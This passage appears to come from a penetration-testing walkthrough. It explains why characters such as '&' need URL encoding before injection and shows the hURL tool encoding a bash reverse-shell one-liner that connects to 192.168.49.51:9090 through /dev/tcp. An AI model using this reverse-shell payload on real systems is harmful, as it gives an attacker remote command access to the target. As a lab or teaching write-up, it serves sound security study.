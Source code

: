 We also need to **URL-encode** these characters. For instance, the `&` character is used as a delimiter by the backend, and if not URL-encoded, the web server will process everything after it as a parameter-value pair.

{% code overflow="wrap" %}
```bash
$ hURL -U "bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.51%2F9090%200%3E%261%27
```
{% endcode %}
